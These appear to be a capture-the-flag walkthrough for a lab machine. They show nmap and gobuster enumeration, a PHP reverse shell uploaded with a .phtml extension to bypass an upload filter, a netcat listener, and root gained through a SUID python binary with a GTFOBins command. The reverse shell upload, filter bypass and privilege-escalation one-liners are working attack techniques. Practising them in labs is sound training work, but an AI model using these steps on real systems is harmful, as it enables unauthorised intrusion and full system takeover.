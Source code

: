 
#my ip : X.X.X.X 
machine : 10.10.236.241

SCANNING
========
intial scan :
└─$ nmap -sV -v -Pn 10.10.236.241  -oN nmap/intial

22/tcp   open     ssh                                                                                                         
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu)) 

#it seems we only have the webpage to look into but let's run full scan in the background just in case it is helpless

└─$ nmap -sV -v -Pn -p- -sC 10.10.236.241  -oN nmap/all


ENUMRATION
===========

└─$ gobuster dir -u "http://10.10.236.241/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  | tee gobuster.txt

```
/uploads              (Status: 301) [Size: 316] [--> http://10.10.236.241/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.236.241/panel/]  

```

#found upload page at /panel so let's try upload a shell !

#pentester monkey php reverse shell is a great one :

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

#let's upload it and check if there is filteration techniques on uploading files 
#it doesn't accecpt php files :)
#let's check /uploads maybe it is uploaded and checked at their side !
#it is not :(
#let's try some modification on extenstion

phtml, .php, .php3, .php4, .php5, and .inc

EXPLOITAION
===========
#trying phtml and changing ip in the code 
# it is uploaded ! , and you can find it in the uploads section !
#set a listener 
$nc -lvp 1234 #my port
and execute it at uploads page 
=============================
   NOW WE HAVE A SHELL !
=============================
as www-data 
#to get stable shell 
$ python3 -c "import pty ; pty.spawn('/bin/bash')"

get user flag :
$find / -name user.txt

now we need privilege escalation :
----------------------------------

#sudo -l  #need our passs which we don't know :(

#-rw-r--r-- 1 root root 1603 Aug  4  2020 /etc/passwd

#-rw-r----- 1 root shadow 1157 Aug  4  2020 /etc/shadow

suid
======
SUID, the special permission for the user access level has a single function: 
A file with SUID always executes as the user who owns the file, regardless of the user passing the command. 

check for suid premissions :
-----------------------------
$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null

weird file
------------
/usr/bin/python

visiting https://gtfobins.github.io/gtfobins/python/#suid


/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'



now we are root !
# find / -name root.txt

and get the final flag  :) 


